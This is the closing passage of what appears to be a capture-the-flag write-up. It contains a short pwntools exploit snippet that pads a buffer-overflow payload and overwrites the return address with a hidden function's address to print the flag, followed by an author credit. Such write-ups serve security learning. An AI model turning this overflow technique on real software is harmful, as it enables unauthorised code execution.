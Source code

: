```python3
payload = payload.ljust(40, b'\x00') # Padding again
payload += p64(e.sym['disablefunction']) # Address of disabled function
p.sendline(b'1\n2\n'+payload) # BOF

print(p.recvall()) # Get the flag
```

# Authors

> Written by [D4rkNebula](https://github.com/D4rkNebula)